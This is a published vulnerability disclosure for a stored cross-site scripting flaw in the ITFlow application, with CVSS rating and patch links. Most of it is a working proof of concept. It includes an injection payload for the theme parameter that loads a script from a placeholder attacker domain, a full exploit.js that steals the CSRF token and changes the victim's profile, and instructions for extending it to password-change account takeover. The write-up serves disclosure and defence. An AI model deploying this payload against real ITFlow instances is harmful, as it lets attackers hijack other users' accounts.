



# Stored XSS to Account Takeover

Researchers: 10splayaSec and bauluk
Severity: 7.1 (CVSS:3.1/AV:N/AC:H/PR:L/UI:R/S:U/C:H/I:H/A:H)
Published: https://github.com/itflow-org/itflow/security/advisories/GHSA-hw47-q7r3-m8pj
Patched Version: https://github.com/itflow-org/itflow/commit/75da31d9915a947339a0de95281db18c17aa933a 
Software Link: https://github.com/itflow-org/itflow

## Description

A Stored Cross-Site Scripting (XSS) vulnerability has been detected in the ITFlow application. This flaw allows attackers to inject malicious code into the application, which can then be executed by a victim's browser. The threat actor can change a user's password on their behalf without the user's knowledge, resulting in a full account takeover.

## Proof of Concept

1. Navigate to Settings -> Theme, then pick a theme, and click on "Set Theme". (Make sure you are capturing the request through a proxy).



2. Set the `theme` parameter to the following code and send the request to the application (Make sure to put your attacker domain):
```
" onfocus="window.onload = function() {var s = document.createElement('script');s.src = 'http://<attacker-domain.com>/exploit.js';document.head.appendChild(s);};" autofocus="
```


3. On the attacker machine, create a Javascript file named `exploit.js` and place the following code into the file:
```
const xhr = new XMLHttpRequest();
xhr.open('GET', '/itflow/user_profile.php', true);
xhr.onreadystatechange = function() {
  if (xhr.readyState === 4 && xhr.status === 200) {
    const parser = new DOMParser();
    const doc = parser.parseFromString(xhr.responseText, 'text/html');
    const csrf_token = doc.querySelector('input[name="csrf_token"]').value;
    // const username = doc.querySelector('input[name="name"]').value;
    const email = doc.querySelector('input[name="email"]').value;
    const postReq = new XMLHttpRequest();
    postReq.open('POST', '/itflow/post.php', true);
    postReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    postReq.onreadystatechange = function() {
      if (postReq.readyState === 4 && postReq.status === 200) {
        console.log(postReq.responseText);
      }
    };
    const body = `csrf_token=${csrf_token}&existing_file_name=&name=HACKED&email=${email}&new_password=&edit_profile=`;
    postReq.send(body);
  }
};
xhr.send();
```

This script will search for the hidden input field on the `user_profile.php` page and retrieve information about the `csrf_token`, `email`, and `username` (which I commented out for Proof of Concept purposes). It will then make a POST request to `post.php`, posting the `csrf_token`, `email`, a `new_password` (left blank), and change the username to "HACKED". 

If you want to see the true impact, you can uncomment the **username** variable, replace the "HACKED" with `${username}`, and change the `new_password` parameter to be over 8 characters. Then, whenever a user tries to log in or navigate around the application, they will be logged out and required to log in again. However, their password will be changed to whatever value you set it to, resulting in an account takeover.




4. Enable your web server on the attacking machine where the exploit.js file is located.
5. Try to navigate around the website, and you will see the username gets switched to "HACKED".

